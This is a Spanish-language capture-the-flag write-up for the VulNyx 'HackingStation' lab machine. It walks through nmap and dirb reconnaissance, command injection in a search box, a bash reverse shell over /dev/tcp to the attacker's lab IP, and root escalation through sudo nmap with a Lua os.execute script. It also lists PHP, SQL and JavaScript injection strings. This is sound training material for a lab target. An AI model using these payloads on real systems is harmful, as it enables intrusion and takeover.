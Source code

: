 # WRITEUP - HACKINGSTATTION - VULNYX #
![image](https://github.com/AlexGis99/Writeups/assets/82893511/34eb39b4-93b9-49b7-b8e5-30dc668567f9)
### Recon/Scanning network: ###
Empezamos identificando el activo víctima a explotar dentro de nuestra red con un reconocimiento completo de ella:
```shell
$ netdiscover -r 10.0.2.0/24
```
~~Meter imagen del resultado~~  
Identificamos la ip de nuestra víctima, ahora podemos empezar a escanear el activo para identificar posibles vectores de entrada.  
Ejecutamos un escaneo con nmap en el que escaneamos todos los 65535 puertos (-p-), que nos identifique todos aquellos puertos abiertos (--open), con un ratio mínimo de 5000 paquetes por segundo (--min-rate 5000), sin resolución DNS (-n) y sin host discovery (-Pn). [First scan](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/nmap/first-scan).
```console
$ nmap -p- --open --min-rate 5000 -n -Pn 10.0.2.6
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00059s latency).
Not shown: 44294 closed tcp ports (reset), 21240 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

# Nmap done at Thu Apr 18 13:31:48 2024 -- 1 IP address (1 host up) scanned in 18.70 seconds
```
Observamos que solo existe un puerto abierto con el escaneo realizado, por lo que vamos a ejecutar un escaneo sobre servicios y con unos scripts por defecto para el análisis. [Scan services](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/nmap/scan-services).
```shell
$ nmap -p80 -sVC 10.0.2.6 
```
```shell
Nmap scan report for 10.0.2.6
Host is up (0.00069s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:E1:40:2F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 13:33:06 2024 -- 1 IP address (1 host up) scanned in 6.94 seconds
```
### Enumeration ###
Como podemos comprobar, tiene un servicio HTTP con un apache 2.4.57, el cuál si buscamos un poco de información, podemos ver que está relacionado con el CVE-2023-31122, el cuál nos permite ejecutar un RCE (Remote Command Execution), no indagaremos más por ahora sobre está vulnerabilidad pero está bien tenerla en mente.  
Teniendo este servicio web, podemos dejar un dirbuster ejecutando mientras nosotros analizamos de forma manual el servicio web. [Dirbuster](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/HackingStation/enumeration/dirbuster_80).
```shell
$ dirb http://10.0.2.6:80
```
Dejamos la ejecución de dirbuster corriendo y mientras vamos a echar un vistazo al servicio web. Al entrar con el navegador, podemos ver la página principal. Este servicio web parece tener la funcionalidad de ser un repositorio de exploits en el que se pueden buscar mediante el cuadro de texto abajo. Al ver este cuadro de texto habilitado, podemos empezar a probar cualquier Injección de Comandos para ver si es vulnerable o no.   
~~Imagen página web~~  
### Exploitation ###
Antes de empezar a inyectar comandos, podemos buscar por ejemplo qué vulnerabilidades tiene apache 2.4.57 y ver el funcionamiento del servicio.  
~~Imagen búsqueda apache~~  
Identificamos que el servicio ejecuta un archivo php para hacer la búsqueda llamado queryExploit.php. Gracias a esto, ya sabemos que el servicio web usa por debajo php y nos sirve para hacer inyecciones en php o relacionado. Podemos probar a ejecutar dentro del cuadro de búsqueda de la página principal comandos como:
- PHP:
	- ";exec("ls")
 	- ';exec("ls")
  	- ");exec("ls")
  	- ');exec("ls")
- SQL:
	- '; select * --
- JS:
	- ;alert("Hacked")
 	- ";alert("Hacked")
  	- ';alert("Hacked")
  	- ");alert("Hacked")
  	- ');alert("hacked")

Pero ninguno de estos intentos nos va a funcionar. Si analizamos un poco la respuesta del servidor, observamos que nos referencia un path en el que se encuentra el posible repositorio en el que se apoya el servicio web, siendo este path: */opt/snap/core22/searchsploit/298/*. Esto nos puede dar una pista de que el comando que se está ejecutando al buscar el exploit dentro del repositorio, es un comando de sistema y al saber que estamos aparentemente ante un sistema Debian (Linux) por el escaneo de servicios realizado anteriormete, podemos probar a ejecutar comandos de sistema. Por ejemplo vamos a ejecutar un *whoami* para ver si esto es posible:  
~~Imagen búsqueda~~  
Al ejecutar esto, vemos que al final de la página, nos devuelve "hacker". Podemos confirmar que este es el método que está utilizando el servicio por dentro y acabamos de ejecutar un comando de forma remota en el sistema.  
~~Imagen resultado~~
### Gaining access ###
Una vez comprobado esto, vamos a enviarnos una reverse shell para conseguir conectarnos con una terminal y poder seguir con la intrusión de forma más sencilla y cómoda. Para esto dejamos nuestra máquina a la escucha por un puerto aleatorio, por ejemplo, 443, a la espera de una conexión.
```shell
$ nc -nlsvp 443
```
Mientras, hacemos una búsqueda ejecutando una reverse shell sobre el servicio web con: *;bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'* y ejecutamos.  
Acabamos de recibir una shell con el usuario hacker sobre la máquina víctima.  
~~Imagen intrusion~~  
Tenemos una shell, pero debemos realizar un tratamiento adecuado de la shell para que nos resulte más cómodo:
```shell
$ script /dev/null -c bash
$ ctrl+z
$ stty raw -echo;fg
$ reset xterm
$ export TERM=xterm
$ export SHELL=bash
```
Recibimos una shell tratada. Una vez hecho esto, podemos buscar la flag del usuario hacker, la cual estará en su directorio home: */home/hacker/user.txt*.  
~~imagen user flag~~
### Privilege escalation ###
Una vez tenemos el accesso con un usuario sin privilegios aparentes, toca escalar a root para obtener el control total de la máquina. Empezamos visualizando los permisos propios del usuario, sus grupos, si tiene un crontab asociado y posibles archivos con permisos SUID/GUID que nos permitan escalar, pero no vemos nada aparentemente. Vamos a listar si el usuario tiene algún permiso a nivel de *sudo* y vemos que puede ejecutar como root un binario */usr/bin/nmap*.  
```shell
$ sudo -l
```
~~Imagen captura sudo -l~~  
Probamos a ejecutar el comando y vemos que tiene un funcionamiento como nmap. Podemos de hecho, realizar un escaneo a localhost y poder ver servicios levantados solo de forma interna.  
```shell
$ sudo nmap 127.0.0.1
```
~~nmap 127.0.0.1~~  
Observamos que nos aparece ssh abierto. Este servicio aunque salga abierto, no es accesible de forma externa a la máquina, tal y como vimos en los primeros escaneos realizados de forma remota. Esto simplemente es una curiosidad, no nos ayudará a escalar o comprometer más la máquina.  
Si recordamos, nmap se puede implementar con scripts, por lo que podemos intentar ejecutar algún script propio mediante nmap y que nos devuelva una shell como root. Esto debido a que como podemos ejecutar nmap como root, si conseguimos que nmap ejecute una shell mediante un script, nos devolverá una shell con el usuario que ejecuta nmap, root. Haciendo una búsqueda para ver cómo crear scripts *.lua* propios y ejecutarlos con nmap, nos topamos con una web llamada **GTFOBins**, la cual es un repositorio de diferentes binarios a ejecutar en entornos en los que haya pocos recursos.  
~~Imagen GFTObins~~  
Tenemos una entrada para nmap y bajando, encontramos una sección para ejecutar una shell mediante nmap. Hay dos formas:
- nmap --interactive: Solo entre las versiones 2.02 a 5.21.
- *Input echo is disabled*:
Debido a que nuestra versión es 7.x, nos queda probar la segunda opción. Esta opción consiste en crear un temporal que contenga la sentencia *os.execute()* que nos permite ejecutar comandos del sistema, de esta forma, podemos intentar ejecutar una shell. 
```shell
$ BASH=$(mktemp)
$ echo 'os.execute("/bin/bash")' > $BASH
$ sudo nmap --script=$BASH
```
~~Captura ejecución nmap con sudo y obtencion de root~~  
Hemos conseguido obtener una shell como root. Una vez hecho esto, tenemos completo control del sistema. Nos spawnea una shell en la que no nos aparece lo que escribimos, para recibir una shell en condiciones podríamos ejecutarnos una reverse shell y captarla como hemos hecho en pasos anteriores, activar de forma externa ssh y entrar mediante una clave pública... etc. Nosotros lo que vamos a obtener ahora es la flag de root, la cual se encuentra en */root/root.txt*.  
~~Imagen obtencion root.txt~~  
### Adicional ###
Si recordáis, en la parte de enumeración del activo, habíamos ejecutado un dirbuster el cual no nos ha hecho falta para poder comprometer el objetivo. De todas formas, este dirbuster nos identifica una ruta en el servicio web que nos lleva a una librerñia de jQuery. En principio, no he encontrado nada interesante en esa ruta: *http://10.0.2.6:80/javascript/jQwery/jQuery*.
